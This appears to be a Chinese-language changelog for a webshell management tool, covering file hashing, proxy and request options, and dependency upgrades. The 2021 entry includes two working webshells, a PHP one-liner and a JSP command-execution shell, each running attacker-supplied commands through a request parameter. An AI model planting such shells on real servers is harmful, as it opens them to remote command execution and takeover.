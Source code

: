 ### 文件管理

* 新增 FileHash 计算目标文件 hash 功能

> 该功能目前正在逐步适配所有类型中 (PHP/PHP4/PSWindows/CMDLinux/JSP)

### 后端模块

* 支持自定义 Content-Type, 默认是 `form`
* Fix #307
* 重新规整 `modules/request.js` 代码结构

### 设置模块

* 优化了新增Core类型时，编码设置解析逻辑, 现在不需要再改该模块的源代码了
* 优化全局代理设置, 代理在设置完后不需要再重启了

### 其它

* 更新纯真IP数据库为 2022/04/20 (https://github.com/out0fmemory/qqwry.dat)

> 如需自己更新请下载后替换 `static/libs/qqwry.dat` 文件

* 升级 superagent 到 6.1.0 (再高的版本需要高版本Electron支持)
* 升级 superagent-proxy 到 v3.0.0


## 2021/07/25 `v(2.1.14)`

### 核心

* 新增 CMDLINUX Shell 类型

> 基于命令执行的一句话类型, 仅支持 Linux 环境

只要有一个可以执行命令的点, 就可以快乐起来 :)

* PHP:

```php
<?php system($_POST['ant']);?>
```

* 比较流行的 JSP 命令执行 WebShell

```jsp
<%
  if(request.getParameter("cmd")!=null){
    java.io.InputStream in = Runtime.getRuntime().exec(new String[]{"/bin/sh","-c",request.getParameter("cmd")}).getInputStream();
    int a = -1;
    byte[] b = new byte[1];
    out.print("<pre>");
    while((a=in.read(b))!=-1){
      out.print(new String(b));
    }
    out.print("</pre>");
  }
%>
```


[medicaean-github]: https://github.com/Medicean
[peablog-github]: https://github.com/peablog
[loveshell-github]: https://github.com/loveshell
[Lupino-github]: https://github.com/Lupino
